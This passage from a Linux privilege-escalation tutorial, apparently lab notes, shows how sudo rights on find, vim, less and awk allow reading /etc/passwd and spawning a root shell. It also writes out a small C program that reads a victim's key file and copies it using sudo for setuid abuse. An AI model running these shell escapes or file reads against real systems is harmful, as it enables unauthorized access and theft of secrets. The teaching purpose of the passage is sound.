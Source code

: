 You can then execute that command using:
 `sudo -u target /bin/bash`.

Depending on the application you are allowed to run, there are sensitive files that can be read or priv esc may be possible.  

__Find__

`sudo -u target2 /usr/bin/find /etc/passwd -exec cat {} \;` to read a file, or
`sudo -u target2 /usr/bin/find /etc/passwd -exec /bin/bash \;` to open a shell

__Vim__

`sudo -u target3 /usr/bin/vim` and then either:
* `:r /etc/passwd` to read files
* `:!/bin/bash` to open a shell

__Less__

`sudo -u target4 /usr/bin/less /etc/passwd` to read a file and open less.  Then you can:

* `:e [PATH]` to open a file
* `!/bin/bash` to open a shell

__Awk__

`sudo -u target5 /usr/bin/awk '{print $1}' /etc/passwd` to read a file.

`sudo -u target5 /usr/bin/awk 'BEGIN {system("/bin/bash")}'` to start a shell.

__Setuid & Setgid__

`Setuid` flags on `root` user binaries, or equivalent `setgid` flags, are always a good target.

We need to either find useul binaries that already have these flags, or be able to copy or otherwise create files owned by the target user.  Additionally, we need to be able to set `setgid` or `setuid` flags on them.

Historically, you could exploit this issue by copying a shell (bash, ksh more recently) and adding the `setuid` bit to it. Unfortunately most shells will now prevent this attack. 

We can still do something similar by writing our own program.  

```bash
echo 'int main(void)
{
system("cat /home/victim/key.txt");
}' > /tmp/badfile.c
```

You can compile this with:

```bash
gcc -o /tmp/badfile /tmp/badfile.c
```

Then you will need to copy it using `sudo`.  

```bash
sudo -u target cp /tmp/badfile /tmp/target
```
